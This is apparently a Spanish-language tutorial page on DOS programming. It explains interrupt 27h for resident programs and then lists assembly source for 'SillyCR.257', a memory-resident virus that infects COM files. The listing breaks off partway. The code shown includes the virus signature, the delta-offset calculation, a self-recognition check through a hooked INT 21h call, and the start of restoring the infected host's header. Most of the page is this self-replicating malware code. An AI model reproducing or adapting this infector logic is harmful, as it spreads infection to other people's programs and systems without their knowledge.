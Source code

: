 Se utiliza la interrupción 27h (DOS 1.x) para crear programas TSR.

<div class="table-responsive">
<table class="table" >
   <thead class="thead-light">
    <tr>
      <th>Interrupción 27h</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>  
  <tr>
    <td>Terminar programa y dejar porción residente en memoria</td> 
    <td>CS = segmento de PSP <br/> DX = dirección más alta a ocupar en memoria</td> 
    <td>-</td>
    <td>1+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;###############################################################################  
;# Nombre:        virus://DOS/SillyCR.257  
;# Plataforma:    Intel x86  
;# SO:            DOS v2.0+  
;# Lenguaje:      ASM x86-16 (sintaxis Intel)  
;# Herramientas:  TASM v4.1, TLINK v7.1.30  
;# Tipo:          Postpending, Resident, COM infector  
;# Tamaño:        257 bytes  
;# Propagación:   En archivos COM antes de ser ejecutados (INT 21h - AH=4B).  
;# Infección:     Postpending en archivos COM (no READ-ONLY).
;# Residente:     Si. Dentro de la memoria convencional (0-640KB), en la  
;#                zona baja del sistema.  
;# Stealth:       No  
;# Payload:       No  
;##############################################################################
                    .8086  
                    .model tiny

                    assume cs:virus, ds:virus

          virus     segment byte public 'CODE'

                    org 100h

         start:     jmp short body                          ; cabezal, en las siguientes generaciones aquí  
                    nop                                     ; habrá un near JMP de 3 bytes  
                    db 'V'                                  ; firma viral
    
                    mov ah, 00h                             ; / huésped dummy, solo retorna a DOS  
                    int 21h                                 ; \

          body:     call d_offset                           ; calcular delta offset  
      d_offset:     pop bp  
                    sub bp, offset d_offset 

                    mov ax, 0ABCDh                          ; | AX = 0ABCDh  
                    int 21h                                 ; |_DOS API - Llamar servicio de reconocimiento del virus

                    cmp ax, 029Ah                           ; verificar código de respuesta  
                    jne infect_int21h                       ; si no es 666 (29Ah), infectar INT 21h

                    mov cx, 4                               ; restaurar cabezal original  
                    lea si, [bp + host_head]  
                    mov di, 100h  
